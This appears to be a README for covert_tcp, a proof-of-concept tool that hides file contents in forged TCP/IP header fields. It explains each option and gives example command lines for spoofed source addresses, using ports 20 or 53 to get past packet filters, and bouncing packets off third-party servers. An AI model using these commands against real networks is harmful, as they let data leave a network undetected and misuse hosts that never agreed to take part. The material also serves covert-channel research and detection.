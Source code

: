 # Covert-TCP-IP-Protocol
The covert_tcp program is a simple utility written for use on Linux systems only and has only been tried on Linux running version 2.0 kernels. Covert_tcp is a proof of concept application that uses raw sockets to construct forged packets and encapsulate data from a filename given on the command line. The file itself can contain text or binary data as the user sees necessary.
The program itself is straightforward and very slow in transmitting of data (about one packet per second). The transfer rate is limited to one packet per second to ensure packets do not arrive out of sync. Because we are subjugating the TCP/IP protocol for a purpose not designed, the normal reliability modes are non- existent and in essence functions much like UDP. This program does not attempt to provide for any type of flow control or error detection, although these things can be added if necessary (this may be overkill). The fastest mode of communication would probably involve establishing of a legitimate data stream between two hosts and encoding the IP identification fields with data. This method would leave the sequence numbers intact and would allow for a drawn out communication session where error correction and flow control are still handled by the IP and TCP layers and the remote system can re-send packets if corrupted with information again imbedded in the header. Lastly, the full length of the fields are not being used, the ID field is 16 bits long and the sequence number fields are 32 bits long, a data compression method can surely be implemented to send larger amounts of data per packet.

The covert_tcp program was made quickly and not much work has been put into making it a functional system and none probably will be. There will be no support for this program of any type.

The program takes a number of parameters which can be used to establish a "client" (the machine sending the data) and a "server" (the machine receiving the data). The options are as follows:

-dest <IP address>

For CLIENT mode [MANDATORY]:

The destination IP address of the server you wish to communicate TO. For the "bounce" mode of operation, this is the server you want to bounce packets off of.

For SERVER mode:

Not Used.

-source <IP address>

For CLIENT mode [MANDATORY]:

The source address you want the packet to appear to be FROM. For the IP ID field and normal TCP sequence number encoding modes this field MUST be your legitimate IP address! Bouncing a packet off of a remote server with encoded IP ID fields will cause the fields to be re-written by the remote server on the return. This is not what you want.

For SERVER mode:

This is the address that the client will listen FOR. If a packet is received from this address it is immediately decoded and written to the output file.

-source_port <port number>

For CLIENT mode:

This is the port that the packet should appear to originate FROM on the source machine. This is normally a random number between 1023-65536. However it can be pre-set to a low port number such as 20 (FTP-Data) or 53 (DNS) to allow it to hop some packet filters that allow this traffic. Additionally, if you are bouncing packets off a remote server, you can set the originating port to a pre- defined number such as 1234 and have your receiving server listening to this port. When the packet bounces off the remote host, it will return on the source IP and port number 1234 where your remote system is listening. In this manner, the client can bounce off hundreds of host and have the server simply write out any data received on port 1234 to a file.

For SERVER mode:

This is the port the local server should be listening to for all data. If you do not supply an IP address, the server will simply write all data received on this port to a file. This allows a client to bounce packets off multiple sites with multiple IP addresses and have the server correctly intercept and decode them.

-dest_port <port number>

For CLIENT mode:

This is the destination port of the server you want to communicate WITH. The default value is port 80 (HTTP) and usually works well. This port does not need to be active on the remote listening server, however the listening server does need to be told to listen for packets for this port or for the IP address you are originating from or bouncing packets from (see -dest option above).

For SERVER mode:

Not used.

-file <filename>

For CLIENT mode [MANDATORY]:

The filename of the file you wish to send. This file can be text or binary and can be encrypted with a program such as PGP to provide further protection. covert_tcp will exit when the file is completely transferred.

For SERVER mode [MANDATORY]:

The name of the file to write to when data is received. End of file is NOT automatically detected in covert_tcp and you will have to ctrl-break to end the data transmission sequence when it is complete.

-server [No options]

For CLIENT mode:

Not used.

For SERVER mode [MANDATORY]:

Tells covert_tcp to listen passively on a raw socket for incoming data. This socket can specifically filter on the source IP given in the command line, or on the port number given, or both. All received data is written to the filename given above.

-ipid

For CLIENT mode:

This is the basic encoding mode which reads in the file given and encodes the ASCII values into the IP identification field before sending the data. This mode does NOT work for the TCP/IP bounce method described above. You MUST use the -seq option to bounce packets off of remote servers. See below for more information on this option.

For SERVER mode:

This tells the server to decode data received based on the IP identification field and write it out to disk to the filename provided.

-seq

For CLIENT mode:

This is another encoding method whereby the TCP sequence numbers are used to encode the ASCII data before sending. This mode can be used along with a spoofed source IP address to bounce packets off of a remote server. This is the only mode that allows you to do this method of data transmission.

For SERVER mode:

This enables the server to decode data stored in the sequence number of incoming packets. This method will ONLY WORK for packets sent DIRECTLY TO THE SERVER and will NOT WORK for packets bounced off a remote site. Remote sites generate their own sequence number if packets are bounced off of them and include this information along with the acknowledged sequence number of the original packet. This mode will not allow the server to decode the ACK field as it should and the data will not be received correctly. See the -ack switch to read BOUNCED packets.

-ack

For CLIENT mode:

Not used.

For SERVER mode:

The ONLY MODE where bounced packets can be decoded. If your client is bouncing packets off a remote site you must use this option to have the server automatically decode the acknowledged sequence numbers of incoming packets.

Examples:

1) Send a file (secret.pgp) via IP Identification field encoding from client_IP to server_IP:

Client sender:

covert_tcp -source client_IP -dest server_IP -file secret.pgp

Server receiver:

covert_tcp -source client_IP -server -file secret.pgp

The IP Identification field is the default encode/decode method so no command switch is necessary. The above sends from a random originating port to a destination port of 80. These are also default values. The server will listen for anything from the client_IP address and write it to disk.

2) Send a file (secret.pgp) via TCP sequence number field encoding appearing to be from port 20 on client_IP destined for port 20 on server_IP:

Client sender:

covert_tcp -source client_IP -dest server_IP -source_port 20 -dest_port 20 - seq -file secret.pgp

Server receiver:

covert_tcp -source_port 20 -server -seq -file secret.pgp

You do not need to include the IP address of the inbound traffic if you do not want. Any traffic destined to port 20 from any site will be written to disk in this case.

3) Send a file (secret.pgp) via TCP sequence number field encoding to be bounced of server bounce_IP and have the packet read by the destination server at server_IP.

Client sender:

covert_tcp -source server_IP -source_port 1234 -dest bounce_IP -seq -file secret.pgp

Server receiver:

covert_tcp -source_port 1234 -server -ack -file secret.pgp

The source packet will appear to have come from server_IP and port 1234. The return packet will go to server_IP port 1234 and will be decoded by the passive server listening for any source IP talking to local port 1234.

NOTE: Covert_tcp will always default to use the supplied listening port number before using the IP address. You need to pick one or the other as the server listening option.

covert_tcp source

